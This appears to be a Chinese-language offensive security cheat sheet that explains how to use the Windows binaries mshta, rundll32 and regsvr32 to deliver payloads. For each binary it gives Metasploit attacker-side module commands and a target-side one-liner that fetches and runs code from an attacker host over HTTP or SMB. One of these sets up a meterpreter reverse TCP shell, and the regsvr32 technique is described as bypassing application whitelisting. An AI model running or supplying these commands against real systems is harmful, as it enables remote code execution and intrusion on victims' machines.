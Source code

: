 **Mshta.exe**

Mshta.exe 运行 Microsoft HTML 应用程序主机，这是 Windows OS 实用程序，负责运行 HTA（HTML 应用程序）文件。可以用来运行 JavaScript 或 VBScript 的 HTML 文件。

Metasploit 包含“ HTA Web服务器”模块，该模块会生成恶意的 hta 文件。该模块托管一个 HTML 应用程序（HTA），该应用程序在打开时将通过 Powershell 运行有效负载。当用户导航到 HTA 文件时，在有效载荷执行之前 IE 会提示两次。

攻击端
```bash
use exploit/windows/misc/hta_server
set srvhost 192.168.1.109
set lhost 192.168.1.109
exploit
```
目标端
```cmd
mshta.exe http://192.168.1.109:8080/5EEiDSd70ET0k.hta
```

**Rundll32.exe**

Rundll32.exe 与 Windows 操作系统相关联，可调用从 DLL（16位或32位）导出的函数并将其存储在适当的内存库中。

Metasploit 还包含“ SMB Delivery”模块，该模块生成恶意的 dll 文件。该模块通过 SMB 服务器提供有效负载，并提供检索和执行生成的有效负载的命令。当前支持 DLL 和 Powershell。

攻击端
```bash
use exploit/windows/smb/smb_delivery
set srvhost 192.168.1.109
set lhost 192.168.1.109
exploit
```
目标端
```cmd
rundll32.exe \\192.168.1.109\vabFG\test.dll,0
```

**Regsvr32.exe**

Regsvr32 是一个命令行实用程序，用于注册和注销 OLE 控件，例如 Windows 注册表中的 DLL 和 ActiveX 控件。Windows XP 和更高版本的 Windows 的 ％systemroot％\ System32 文件夹中安装了 Regsvr32.exe。

Regsvr32使用 “squablydoo” 技术绕过应用程序白名单。签名的 Microsoft 二进制文件 Regsvr32 可以请求一个 .sct 文件，然后在其中执行包含的 PowerShell 命令。这两个 Web 请求（即 .sct 文件和 PowerShell 下载/执行）都可以在同一端口上发生。“PSH(Binary)”将向磁盘写入文件，允许下载/执行自定义二进制文件。

攻击端
```bash
use exploit/multi/script/web_delivery
set target 3
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.1.109
set srvhost 192.168.1.109
exploit
```
目标端
```bash
regsvr32 /s /n /u /i:http://192.168.1.109:8080/xo31Jt5dIF.sct scrobj.dll
```
